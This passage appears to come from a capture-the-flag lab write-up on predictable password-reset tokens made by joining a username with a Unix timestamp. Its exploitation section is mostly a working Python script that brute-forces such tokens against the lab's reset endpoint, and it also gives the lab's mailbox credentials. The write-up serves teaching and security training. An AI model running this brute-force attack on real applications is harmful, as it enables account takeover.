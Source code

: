
- This token is a simple concatenation of the username (in this case, victim) and the current timestamp produced by the `time()` function.
- Open the [mailbox](http://random.thm:8090/mail/) by logging in with the email `victim@mail.random.thm` and password `Testing@123`. You will see the password reset email like this:

- On the surface, this may seem like a convenient way to generate unique tokens for each password reset request. However, it introduces significant security weaknesses.


## Exploitation

- An attacker can exploit the weak entropy in the reset token by visiting the following reset link: `http://random.thm:8090/case/reset_password.php?token={Username}{timestamp_of_token_generation}`[](http://random.thm:8090/reset_password.php?token={Username}victim{timestamp_of).
- Since the token is generated by concatenating the username with the result of the `time()` function, the attacker knows that the `time()` value represents the timestamp when the reset link was created. With this knowledge, the attacker can perform brute force attacks by guessing nearby timestamps, either manually by trying timestamps a few seconds before and after the reset request or through automation using a script.
- Below is a Python script that accepts command-line arguments for the username and timestamp and brute-forces the reset token by attempting timestamps within 5 minutes before the provided timestamp. [This](https://www.unixtimestamp.com/) website can be used to get the current UNIX timestamp.
- You can adjust the time range by changing `-300` to any other value (in seconds) to avoid waiting too long or testing a more specific time window. For example, `-600` will try tokens within a range of `-10` minutes instead of `5`.

```python
import requests
import sys

# Function to brute force the reset token
def brute_force_token(username, start_timestamp):
    url = "http://random.thm:8090/case/reset_password.php"
    
    # Try tokens within a range of -5 minutes
    for i in range(-300, 0):
        current_timestamp = start_timestamp + i
        token = f"{username}{current_timestamp}"
        params = {'token': token}
        
        response = requests.get(url, params=params)
        
        # Check if the token is valid
        if "Invalid or expired token." not in response.text:
            print(f"Correct token identified: {token}")
            return token
        else:
            print(f"Tried token: {token} (Invalid)")
    
    print("No valid token found in the given range.")
    return None

if len(sys.argv) != 3:
    print("Usage: python exploit.py <username> <unix_timestamp>")
    sys.exit(1)

username = sys.argv[1]
start_timestamp = int(sys.argv[2])

brute_force_token(username, start_timestamp)
```
